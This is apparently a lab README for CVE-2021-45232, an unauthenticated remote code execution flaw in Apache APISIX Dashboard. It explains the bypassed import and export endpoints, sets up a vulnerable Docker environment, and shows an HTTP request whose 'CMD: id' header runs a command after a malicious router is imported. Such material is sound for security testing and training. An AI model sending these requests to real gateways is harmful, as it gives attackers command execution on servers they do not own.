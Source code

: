 # Apache APISIX Dashboard Unauthenticated Access Leads to RCE (CVE-2021-45232)

[中文版本(Chinese version)](README.zh-cn.md)

Apache APISIX is a dynamic, real-time, high-performance API gateway, and Apache APISIX Dashboard is a easy to use frontend interface that is used to manage the Apache APISIX.

In Apache APISIX Dashboard before 2.10.1, the Manager API uses two frameworks and introduces framework `droplet` on the basis of framework `gin`, all APIs and authentication middleware are developed based on framework `droplet`. But there are 2 of these APIs `/apisix/admin/migrate/export` and `/apisix/admin/migrate/import` directly use the interface of framework `gin` which are able to bypass the authentication.

By using these 2 unauthenticated API endpoints, attackers can export and import arbitrary Apache APISIX configuration including routers, services, scripts etc, that leads to reqeust unexpected URL (SSRF) or execute arbitrary LUA scripts (RCE).

References:

- https://apisix.apache.org/blog/2021/12/28/dashboard-cve-2021-45232/
- https://github.com/wuppp/cve-2021-45232-exp

## Vulnerable environment

Execute following command to start a vulnerable Apache APISIX Dashboard 2.9:

```
docker compose up -d
```

Then you can access `http://your-ip:9000/` to see the login page for Apache APISIX Dashboard.

## Exploit

`/apisix/admin/migrate/export` and `/apisix/admin/migrate/import` are 2 unauthenticated API provided by Apache APISIX Dashboard, that are used to export and import configuration for Apache APISIX. So we can simplely import a craft configuration with evil router that contains user provided LUA script:

![](1.png)

Noted that the last 4 bytes are CRC checksum of this file, so it's better to use a automatic POC to build and send the request, for example [this POC](https://github.com/wuppp/cve-2021-45232-exp).

After adding the evil router, you should send the request to Apache APISIX (difference from Apache APISIX Dashboard) to trigger the LUA script.

The Apache APISIX is listening on port 9080 in this environment:

```
GET /okw1Rh HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Connection: close
CMD: id
Cache-Control: max-age=0


```

![](2.png)

As you can see, the command in `CMD` header is executed by Apache APISIX.
